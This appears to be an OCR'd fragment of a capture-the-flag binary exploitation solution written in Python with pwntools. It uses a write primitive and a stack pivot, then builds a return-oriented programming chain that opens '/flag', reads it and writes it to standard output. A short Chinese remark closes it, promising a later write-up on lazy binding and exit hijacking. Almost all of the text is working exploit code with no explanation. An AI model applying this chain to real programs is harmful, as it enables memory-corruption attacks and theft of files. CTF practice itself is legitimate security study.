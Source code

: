 ```python
edit2(0x404010, pop_rsp & 0xffffffff)
edit2(0x404014, pop_rsp >> 32)

io.sendlineafter(b'get',str(0x404060).encode())
sleep(0.5)
io.send(p32(0x401020))

payload = (b'/flag\x00\x00'.ljust(0x10, b'\x00'))
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00' 
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(0x4040d0)
payload += p64(pop_rdx_r12)
payload += p64(0)
payload += p64(0)
payload += p64(openat_addr)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(0x404200)
payload += p64(pop_rdx_r12)
payload += p64(0x100)
payload += p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(0x404200)
payload += p64(pop_rdx_r12)
payload += p64(0x100)
payload += p64(0)
payload += p64(write_addr)
pause()
io.sendline(payload)

############################################


io.interactive()
```

挖个坑，延迟绑定和 `exit` 劫持可以详细写
